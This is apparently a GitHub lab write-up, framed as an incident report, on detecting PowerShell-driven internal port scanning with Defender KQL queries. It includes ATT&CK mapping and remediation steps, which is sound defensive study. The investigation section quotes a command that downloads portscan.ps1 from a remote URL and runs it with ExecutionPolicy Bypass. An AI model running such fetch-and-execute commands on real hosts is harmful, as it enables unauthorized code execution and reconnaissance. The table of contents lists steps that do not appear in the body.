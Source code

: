 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
DeviceNetworkEvents <br />
DeviceProcessEvents <br />
DeviceFileEvents <br />

### Focus Areas:

Failed network connections (potential scanning) <br />
Suspicious process executions <br />
File downloads or script execution activity <br />

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```
![DeviceNetworkEvents](https://github.com/user-attachments/assets/2fdfee8a-937d-4300-97eb-d34024aa24ec)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == "10.0.0.5"
| order by Timestamp desc
Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation
### Step 3:
Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

kusto
Copy
Edit
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName
Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

powershell
Copy
Edit
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
Actions Taken:

Logged into the device to verify script existence.

Confirmed the file portscan.ps1 existed under C:\ProgramData.

Isolated the host from the network.

Performed a full malware scan (no malware detected).

Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping
markdown
Copy
Edit
- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
## 8. Lessons Learned / Improvement
Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.

Restrict PowerShell usage via GPO or allow-listing.

Apply egress controls and file reputation filtering for outbound web requests.

Increase visibility over SYSTEM-level activities on endpoints.

Detection Enhancements:

Create alerts for abnormal outbound connection spikes.

Monitor for suspicious PowerShell usage and external script downloads.

Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


